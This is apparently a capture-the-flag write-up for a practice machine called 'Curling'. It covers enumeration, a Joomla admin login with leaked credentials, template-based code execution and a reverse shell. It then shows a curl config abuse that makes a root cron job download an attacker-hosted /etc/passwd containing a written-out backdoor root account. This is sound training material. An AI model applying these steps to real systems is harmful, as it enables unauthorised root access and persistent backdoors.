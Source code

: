 # Curling

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.248
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 12:14 EDT
Nmap scan report for 10.129.85.248
Host is up (0.0063s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

### Blog Enum + Joomla

The page was some type of blog.

<figure><img src="../../../.gitbook/assets/image (1690).png" alt=""><figcaption></figcaption></figure>

In one of the posts, there's a user called `floris`.

<figure><img src="../../../.gitbook/assets/image (2975).png" alt=""><figcaption></figcaption></figure>

The page source also had a hidden file:

<figure><img src="../../../.gitbook/assets/image (3757).png" alt=""><figcaption></figcaption></figure>

Within it, it had a base64-encoded string. We can pipe the output and decode it:

```
$ curl http://10.129.85.248/secret.txt | base64 -d 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    17  100    17    0     0    941      0 --:--:-- --:--:-- --:--:--   944
Curling2018!
```

Can't use these for now, so let's run a `gobuster` scan as well.&#x20;

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.129.85.248 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.85.248
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/06 12:16:11 Starting gobuster in directory enumeration mode
===============================================================
/modules              (Status: 301) [Size: 316] [--> http://10.129.85.248/modules/]
/bin                  (Status: 301) [Size: 312] [--> http://10.129.85.248/bin/]
/plugins              (Status: 301) [Size: 316] [--> http://10.129.85.248/plugins/]
/includes             (Status: 301) [Size: 317] [--> http://10.129.85.248/includes/]
/language             (Status: 301) [Size: 317] [--> http://10.129.85.248/language/]
/components           (Status: 301) [Size: 319] [--> http://10.129.85.248/components/]
/images               (Status: 301) [Size: 315] [--> http://10.129.85.248/images/]
/cache                (Status: 301) [Size: 314] [--> http://10.129.85.248/cache/]
/libraries            (Status: 301) [Size: 318] [--> http://10.129.85.248/libraries/]
/tmp                  (Status: 301) [Size: 312] [--> http://10.129.85.248/tmp/]
/layouts              (Status: 301) [Size: 316] [--> http://10.129.85.248/layouts/]
/administrator        (Status: 301) [Size: 322] [--> http://10.129.85.248/administrator/]
/templates            (Status: 301) [Size: 318] [--> http://10.129.85.248/templates/]
/media                (Status: 301) [Size: 314] [--> http://10.129.85.248/media/]
/cli                  (Status: 301) [Size: 312] [--> http://10.129.85.248/cli/]
/server-status        (Status: 403) [Size: 278]
```

Loads of directories. The `/administrator` directory had a Joomla login:

<figure><img src="../../../.gitbook/assets/image (4089).png" alt=""><figcaption></figcaption></figure>

We can login using `floris:Curling2018!`.&#x20;

<figure><img src="../../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

We can follow the instructions from Hacktrikcs to get RCE on this website by creating new PHP Templates.

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce" %}

<figure><img src="../../../.gitbook/assets/image (700).png" alt=""><figcaption></figcaption></figure>

Then we can get a reverse shell using a `bash` one-liner.&#x20;

<figure><img src="../../../.gitbook/assets/image (403).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Password Backup

We can't capture the user flag yet. In `floris` home directory, there's a `password-backup` file.

```
www-data@curling:/home/floris$ ls
admin-area  password_backup  user.txt
www-data@curling:/home/floris$ cat password_backup 
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

It appears that the `hexdump` of the original file was taken and this is what is left. We can reverse this with `xxd -r`.&#x20;

<figure><img src="../../../.gitbook/assets/image (1249).png" alt=""><figcaption></figcaption></figure>

This file turns out to be loads of zip files, so we have to do `bunzip2` and `gunzip` twice and `tar` once. Eventually, we will end up with this file:

```
$ cat password.txt   
5d<wdCbdZu)|hChXll
```

We can use this to `su` to `floris`.

<figure><img src="../../../.gitbook/assets/image (3594).png" alt=""><figcaption></figcaption></figure>

### To Root

I ran `pspy64` on the machine to see if there were background processes running as `root`.&#x20;

```
2023/05/06 11:41:01 CMD: UID=0    PID=3317   | /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input                                                                  
2023/05/06 11:41:01 CMD: UID=0    PID=3316   | /usr/sbin/CRON -f 
2023/05/06 11:41:01 CMD: UID=0    PID=3315   | /usr/sbin/CRON -f
2023/05/06 11:41:01 CMD: UID=0    PID=3320   | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

There was some `curl` command being used to read something. Here are the files in question:

```
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
floris@curling:~/admin-area$ head -n 10 report 
<!DOCTYPE html>
<html lang="en-gb" dir="ltr">
<head>
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <meta charset="utf-8" />
        <base href="http://127.0.0.1/" />
        <meta name="description" content="best curling site on the planet!" />
        <meta name="generator" content="Joomla! - Open Source Content Management" />
        <title>Home</title>
        <link href="/index.php?format=feed&amp;type=rss" rel="alternate" type="application/rss+xml" title="RSS 2.0" />
```

So this was reading the URL from a file and outputting it elsewhere. The command uses the `config` command, which one can read more here:

{% embed url="https://curl.se/docs/manpage.html" %}

Essentially, we can specify extra tags here, like `--output` as `output` and so on.

```
# --- Example file ---
# this is a comment
url = "example.com"
output = "curlhere.html"
user-agent = "superagent/1.0"
# and fetch another URL too
url = "example.com/docs/manpage.html"
-O
referer = "http://nowhereatall.example.com/"
# --- End of example file ---
```

This means that we can download any files as `root` since `root` is the one who is running the commands by changing the `curl` configuration file used (which we conveniently have write access over).&#x20;

This means we can overwrite files like `/etc/passwd` and add new `root` users to the machine. First, we would need to get a copy of the `/etc/passwd` of the machine onto ours, and append this line to it:

```
innocent:$1$innocent$VMCqt3i38ds/9QvgZcetR0:0:0:/root:/bin/bash
```

This would create a new user within the `/etc/passwd` file called `innocent` with a password of `password123`. Then we need to change the configuration files to this and start a HTT Pserver:

```
url = "http://10.10.14.13/passwd_original"
output = "/etc/passwd"
```

After the machine has downloaded the file, we can just `su` to our new user.

<figure><img src="../../../.gitbook/assets/image (1836).png" alt=""><figcaption></figcaption></figure>

Rooted!
